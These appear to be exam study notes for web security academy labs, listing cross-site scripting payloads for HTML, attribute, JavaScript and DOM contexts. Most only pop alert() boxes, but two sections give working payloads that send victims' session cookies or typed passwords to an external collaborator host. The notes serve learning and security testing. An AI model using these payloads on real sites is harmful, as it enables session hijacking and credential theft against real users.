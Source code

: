 # Exam Notes

- If xss context is **within html tags** 
	- **with no encoding**
		- We can simply introduce the below payload to execute our javascript code.
		```html
		<script>alert(document.domain)</script>
		```  
	- **most tags and attributes blocked**
		- Make use of intruder to identify for any allowed tags and their event hanndlers. 
		- Use the allowed tags and attributes to execute javascript
		- For example, if **body** tag is allowed we can craft a payload with **iframe** to deliver to our victim
			- Browsers when rendering html only allow one *body* tag and merge any events related to inner body tags to the parent body tag. So, in our scenario if we try to inject a body tag with events into our search field, our inner body tag gets removed and the event gets added to the parent body tag.
		```html
		<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
		``` 
		- Another example when **only custom tags are allowed** we can craft a payload that will be automatically triggered on victims end: **`<script>location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';</script>`**
		- If the application **only allows svg** tag the our payload will be: **`<svg><animatetransform onbegin=alert(1) attributeName=transform>`**
		- If our vss context is within **canonical link tag** our payload would be: **`accesskey='x'onclick'alert(1)`**. **Make sure there are no spaces in our payload**.

> **🗒️ NOTE**
> When trying to find xss make sure to validate all instances of our input within the response. The application might not be implementing encoding or escaping on all those instances.

- If xss context is **into an attribute**
	- **angle brackets html encoded**
		```javascript
		" autofocus onfocus=alert(document.domain) x="
	   ```
		- We are adding **`x="`** to repair the markup from being broken
	- **double quotes encoded and input is within `href` attribute**
		- **`href`** is considered to be a scriptable context. There are other html attributes that act as scriptable contexts by themselves. 
		- We make use of javascript **pseudo-protocol** to execute our payload: 
		```javascript
		javascript:alert(document.domain)
		```

- If xss context is into **JavaScript**
	- **angle brackets html encoded**
		- If our input is within a string then we need to break out of it to introduce javascript code
			```javascript
			';alert(document.domain)//` 
			'-alert(document.domain)-'
		   ```
	- **single quote and backslash escaped**
		- Browsers first perform html parsing to idenfity page elements and then parse javascript to understand and execute embedded scripts.
		- Even though our payload breaks the markup it doesn't prevent the subsequent script from being parsed and executed in a normal way.
		- We can craft our payload using the above information: 
		  ```html
		  </script><img src=1 onerror=alert(document.domain)>;
		 ```
	- **angle brackets and double quotes html encoded and single quotes escaped**
		- To break out of the string we will append a **`\`** backslash character to our payload: **`\\';alert(document.domain)//`**
		- ***Here, the first backslash means that the second backslash is interpreted literally, and not as a special character. This means that the quote is now interpreted as a string terminator, and so the attack succeeds.***
	- **within existing javascript in a quoted tag attribute such as `onclick` event with `<>`, and `"` html encoded and `'`, and `\` escaped**
		- Consider and example: 
		```html
		<a href="#" onclick="... var input='controllable data here'; ...">
		```
		- To break out of the string and execute our payload we will make use of: 
		```javascript
		&apos;-alert(document.domain)-&apos;
		```
		- ***Browser's usually HTML-decode the value of the `onclick` attribute before the JavaScript is interpreted, the entities are decoded as quotes, which become string delimiters, and so the attack succeeds.***
	- **Using template literals \`\` (input within backticks) **
		- We can introduce **embedded expressions `${...}`** with javascript code inside: **`${alert(document.domain)}`**

- **Stealing session cookies**
	- Identify the xss context to craft our payload
	- Start burp collaborator and copy the payload url to clipboard
	- Use the following payload to deliver exploit to our victim: 
	```javascript
	<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>
```

- **capturing passwords**
	- Identify xss context to craft our payload
	- Start burp collaborator and copy payload url to clipboard
	- Use the following payload to deliver exploit to our victim:
	```html
		<input name="username" id="username">
		<input type="password" name="password" onchange="if(this.value.length) fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
		   method: 'POST',
		   mode: 'no-cors',
		   body: username.value + ':' + this.value
		});">
	```
	- Browsers typically enforce **same-origin-policy** which restricts making a request to a different domain. To bypass this we set **mode: no-cors**.

### DOM XSS
- **source `location.search` and sink `document.write`**
	- **document.write allows executing `<script>` tags** and our payload will be:
	```html
		<script>alert(document.domain)</script>
	```
	- **terminating any strings** to excute our payload:
		1. consider our input is within:
		 ```javascript
			document.write('<img src="/resources/images/tracker.gif?searchTerms='+attacker controllable input+'">');
		```
		2. Our payload will now be:
		```html
			'"><script>alert(document.domain)</script>
	   ```
	- **terminating any tags** to execute our payload:
		1. consider our input is within:
		 ```javascript
			document.write('<select name="...attacker controllable input...">')
		```
		2. Our payload will now be:
		```html
		   "><script>alert(document.domain)</script>
	   ```
- **source `location.search` and sink `innerHTML`**
	- **innerHTML doesn't allow `<script>` tags**, alternatively we can use **`img`** tags to execute our code:
	```html
		<img src=1 onerror=alert(document.domain)>
	```
- **source `location.search` and sink jQuery anchor `href` attribute**
	- Consider an example where the value of **returnPath** is being set to a **href** attribute within an anchor tag which has an id **backLink**:
	```javascript
		<script>
			$(function() {
				$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
			});
		</script>
	```
	- If the **returnPath** is **attacker controllable input** then we can use javascript **pseudo-protocol** to execute our payload:
	```javascript
		javascript:alert(document.domain)
	```
- **source `location.hash` and sink jQuery slection function `$()`**
	- Complete the lab again
- **angularJS expression with angle brackets and double quotes html encoded**
	- Complete the lab again
- **source `location.search` and sink `eval()`**
	- Consider an example where our input is reflected within a json response that will eventually get passed to an **`eval()`**
	- We will the following payload to break out of json and call our javascript code: 
	```javascript
		"-alert()}//
	```
- **When `replace` is used for sanitization**
	- Consider an example where our input is sanitized using the javascript function **`replace`** instead of **`replaceAll`**
	- If the function tries to replace **`<`** and **`>`** then we can craft a payload that would be: 
	```html
		<><img src=1 onerror=alert(1)>
	```
	
